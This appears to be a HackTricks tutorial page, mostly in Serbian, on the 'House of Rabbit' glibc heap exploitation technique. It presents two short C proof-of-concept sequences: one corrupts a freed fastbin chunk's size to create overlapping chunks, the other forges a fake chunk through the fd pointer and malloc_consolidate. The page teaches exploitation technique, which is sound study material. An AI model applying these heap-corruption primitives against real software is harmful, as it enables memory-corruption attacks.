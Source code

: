 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **Sposobnost modifikacije fast bin fd pokazivača ili veličine**: To znači da možete promeniti pokazivač napred na delu u fastbinu ili njegovu veličinu.
2. **Sposobnost da pokrenete `malloc_consolidate`**: To se može uraditi ili alokacijom velikog dela ili spajanjem gornjeg dela, što prisiljava heap da konsoliduje delove.

### Goals

1. **Kreirati preklapajuće delove**: Da jedan deo preklapa drugi, omogućavajući dalju manipulaciju heap-om.
2. **Falsifikovati lažne delove**: Da prevarite alokator da tretira lažni deo kao legitimni deo tokom operacija na heap-u.

## Steps of the attack

### POC 1: Modifikujte veličinu fast bin dela

**Cilj**: Kreirati preklapajući deo manipulacijom veličine fastbin dela.

* **Korak 1: Alocirajte delove**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Dodeljujemo dva dela od po 0x40 bajta. Ovi delovi će biti smešteni u brzi bin list nakon što budu oslobođeni.

* **Step 2: Free Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Osoba oslobađa oba dela, dodajući ih na fastbin listu.

* **Korak 3: Izmeni Veličinu Dela**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Menjamo veličinu metapodataka `chunk1` na 0xa1. Ovo je ključni korak da prevarimo alokator tokom konsolidacije.

* **Korak 4: Aktiviraj `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Allociranje velikog dela aktivira funkciju `malloc_consolidate`, spajajući male delove u brzi bin. Manipulisana veličina `chunk1` uzrokuje da se preklapa sa `chunk2`.

Nakon konsolidacije, `chunk1` se preklapa sa `chunk2`, omogućavajući dalju eksploataciju.

### POC 2: Izmeniti `fd` pokazivač

**Cilj**: Kreirati lažni deo manipulacijom `fd` pokazivača brzog bina.

* **Korak 1: Alocirajte delove**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Objašnjenje**: Alociramo dva dela, jedan manji i jedan veći, da postavimo heap za lažni deo.

* **Korak 2: Kreiraj lažni deo**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Pišemo lažne metapodatke o delu u `chunk2` da simuliramo manje delove.

* **Korak 3: Oslobodi `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Objašnjenje**: Oslobađamo `chunk1`, dodajući ga na fastbin listu.

* **Korak 4: Izmenite `fd` od `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Objašnjenje**: Menjamo prednji pokazivač (`fd`) `chunk1` da pokazuje na naš lažni chunk unutar `chunk2`.

* **Korak 5: Aktiviraj `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Allociranje velikog dela ponovo pokreće `malloc_consolidate`, koji obrađuje lažni deo.

Lažni deo postaje deo fastbin liste, čineći ga legitimnim delom za dalju eksploataciju.

### Rezime

Tehnika **House of Rabbit** uključuje ili modifikovanje veličine fast bin dela kako bi se stvorili preklapajući delovi ili manipulaciju `fd` pokazivačem za kreiranje lažnih delova. Ovo omogućava napadačima da falsifikuju legitimne delove u heap-u, omogućavajući različite oblike eksploatacije. Razumevanje i vežbanje ovih koraka poboljšaće vaše veštine eksploatacije heap-a.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
